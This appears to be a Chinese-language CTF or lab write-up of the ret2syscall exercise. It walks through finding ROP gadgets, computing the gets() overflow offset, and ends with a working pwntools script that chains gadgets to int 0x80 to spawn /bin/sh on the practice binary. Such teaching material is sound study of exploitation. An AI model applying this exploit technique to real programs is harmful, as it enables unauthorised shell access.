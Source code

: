 当构造好所需寄存器的值后，跳转到任意一个`int 0x80`地址发起系统中断即可实现一次`execve`系统调用。

为了构造寄存器的值，需要利用程序中已有的，以`ret`结尾的程序片段，实现多个片段间的连续跳转和利用，这种程序片段被称为gadgets。通过ROPgadget工具查找需要的gadgets：

![image-20230423110738249](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304231107283.png)

控制eax的gadget采用`0x080bb196`位置的`pop eax; ret`。

![image-20230423111106472](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304251053628.png)

控制ebx、ecx和edx采用`0x0806eb90 `位置的`pop edx ; pop ecx ; pop ebx ; ret`。

![image-20230423111406420](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304251053028.png)

字符串“/bin/sh”程序中仅有一处，即`0x080be408`地址处。

![image-20230423111620018](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304251053623.png)

系统中断`int 0x80`在程序中也仅有溢出，即`0x08049421`地址处。

因此构思获得shell的攻击流程如下：

1. 通过`gets()`构造缓冲区溢出攻击，劫持控制流。

2. 覆盖`main()`函数的返回地址为控制eax的gadget地址

3. 在栈中后续内容继续填充希望`pop`进eax寄存器的内容`0xb`

4. 在栈中后续内容（控制eax的gadget的ret地址）继续填充为控制ebx、ecx和edx寄存器的gadget地址

5. 在栈中后续内容继续填充希望`pop`进ebx、ecx、edx寄存器的内容`0`、`0`和字符串“/bin/sh”的地址`0x080be408`

6. 在栈中后续内容（控制ebx、ecx、edx的gadget的ret地址）继续填充为`int 0x80`的地址

   当`main()`函数执行完毕退出时，eip指针返回到第一个gadget的地址并依次执行后续gadget，从而依次满足寄存器内容并最终发起系统中断从而调用`execve`弹出一个shell供攻击者使用

### 攻击复现

接下来实现攻击，同上一两题，要先确定`main()`函数返回地址。

![image-20230423115452588](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304251053566.png)

![image-20230423115621344](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304251053113.png)

使用与上一题一样的步骤，在`call _gets`的地址`0x08048E96`处下断点，可以看到：栈指针寄存器esp此时的地址为`0xffffcf20`，其存放的内容即字符串`s`的地址为`0xffffcf3c`；基址指针寄存器ebp的地址为`0xffffcfab`。通过计算可得，s 相对于 ebp 的偏移为 `0xffffcfab-0xffffcf3c=0x6c`。此时内存结构如下图所示：

![image-20230423120021465](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304251053762.png)

根据上述思路编写payload，构造内存结果如下：

![image-20230423165859531](https://raw.githubusercontent.com/SuperMaxine/pic-repo/master/img/202304251053124.png)

最后的payload如下：

```python
from pwn import *

sh = process('./ret2syscall')
pop_eax_ret = 0x080bb196
pop_edx_ecx_ebx_ret = 0x0806eb90
int_0x80 = 0x08049421
binsh = 0x80be408
sh.sendline(b'A' * (0x6c+4) + p32(pop_eax_ret) + p32(0xb) + p32(pop_edx_ecx_ebx_ret) + p32(0) + p32(0) + p32(binsh) + p32(int_0x80))
sh.interactive()
```
